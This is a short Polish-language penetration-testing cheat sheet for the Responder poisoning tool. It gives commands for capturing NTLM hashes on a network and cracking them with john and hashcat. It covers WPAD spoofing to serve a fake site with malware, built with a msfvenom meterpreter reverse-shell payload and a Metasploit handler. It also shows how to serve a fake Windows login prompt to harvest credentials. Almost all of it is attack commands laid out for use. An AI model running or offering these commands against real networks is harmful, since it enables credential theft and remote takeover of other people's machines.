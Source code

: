 ## RESPONDER
### Intro
Responder an LLMNR, NBT-NS and MDNS poisoner
### Preq
### Config
/usr/share/responder/Responder.conf
### Uses
Zatruwanie i zbieranie hashy NTLM  
``responder -I eth0``  
*(john hash1.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2)*  
*(hashcat -m 5600 -a 0 hash1.txt /usr/share/wordlists/rockyou.txt --force --potfile-disable)*
#### Podkladanie WPAD - fake www + malware
``responder -I eth0 -wFfbv``  
*Serve-Html = on*  
*Serve-Exe = on*  
##### Malware example  
``msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=_IP_ lpost=4444 -f exe > payload.exe``  
``use exploit/multi/handler``  
``set lhost _IP_``  
``set lport 4444``  
``set payload windows/x64/meterpreter/reverse_tcp``  
#### Podkladanie WPAD - fakowe windowsowe okno logowania do strony w przegladarce
``responder -I eth0 -r On -w On -wFb``  
*Serve-Html = off*  
*Serve-Exe = off*

